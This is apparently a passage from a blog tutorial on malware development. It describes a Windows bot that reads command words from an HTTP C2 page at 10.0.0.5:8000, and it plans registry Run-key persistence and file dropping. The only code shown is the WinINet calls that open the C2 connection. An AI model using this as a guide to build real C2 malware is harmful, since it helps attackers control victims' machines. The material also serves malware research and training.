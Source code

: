 
The part we care about is the word between <\strong\> tags, this will be retrieved by our bot and based on the word itself it will do different activities or go into different execution paths.

We can implement two functionalities inside our bot:

- Persistence: Writing to key **SOFTWARE\\Microsoft\\CurrentVersion\\Run** and this will be triggered if the commands was <mark>prs</mark>.
- Dropping a file: Dropping a file to Temp path and writing some content, and this will be triggered if the commands was <mark>drp</mark>.

Start the http server using python.


![P1](/assets/images/malware-development/5-0.png)

## Initiating connection to C2

We will be first creating a function that will fetch and parse the HTML page.
```cpp
HINTERNET hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
```
The `InternetOpenW` function is part of the WinINet API in Windows and is used to initialize a session for WinINet functions. This function creates a session handle (`HINTERNET`) that represents the top-level interface for WinINet operations, such as making HTTP requests, and we will indeed be communicating over HTTP with our C2 server.

Next we will use `InternetOpenUrlW` and pass our URL as an argument so we can establish a connection and get a handle to that URL.

```cpp
HINTERNET InternetOpenUrlW(
  [in] HINTERNET hInternet,
  [in] LPCWSTR   lpszUrl,
  [in] LPCWSTR   lpszHeaders,
  [in] DWORD     dwHeadersLength,
  [in] DWORD     dwFlags,
  [in] DWORD_PTR dwContext
);
```
**lpszUrl** will be the full URL of our C2, in my case it'll be: `http[:]//10[.]0.0[.]5:8000/index.html`

```cpp
HINTERNET hInternetUrl = InternetOpenUrlW(hInternet, L"http://10.0.0.5:8000/index.html", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
```

